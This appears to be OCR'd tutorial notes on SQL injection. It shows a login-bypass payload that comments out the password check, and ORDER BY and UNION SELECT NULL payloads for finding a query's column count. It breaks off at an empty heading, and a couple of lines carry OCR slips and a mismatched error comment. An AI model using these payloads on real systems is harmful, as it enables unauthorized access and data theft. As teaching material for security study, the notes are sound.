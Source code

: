 ## **Comments to SQLi**

**Original Query**

```sql
SELECT * FROM logins WHERE username='<USERNAME>' AND password = '<PASSWORD>';
```

**Payload**

```sql
admin'— -
```

**Altered Query**

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

# **Union Injection**

## **Detect number of columns**

### **Using ORDER BY**

In SQL, `ORDER BY x` is used to sort the results of a query based on the x column selected in the list of columns.

```sql
' order by 1-- -   
' order by 2-- -   
' order by 3-- -
' order by 4-- -   #Unknown column '5' in 'order clause'.
```

**Note:** If it failed at `order by 4`, this means the table has three columns, which is the number of columns we were able to sort by successfully.

### **Using UNION**

```sql
cn' UNION select NULL-- -                 #The used SELECT statements have a different number of columns
cn' UNION select NULL,NULL-- -            #The used SELECT statements have a different number of columns
cn' UNION select NULL,NULL,NULL-- -        
cn' UNION select NULL,NULL,NULL,NULL-- -  #The used SELECT statements have a different number of columns
```

We get an error saying that the number of columns don’t match.

## **Location of Injection**
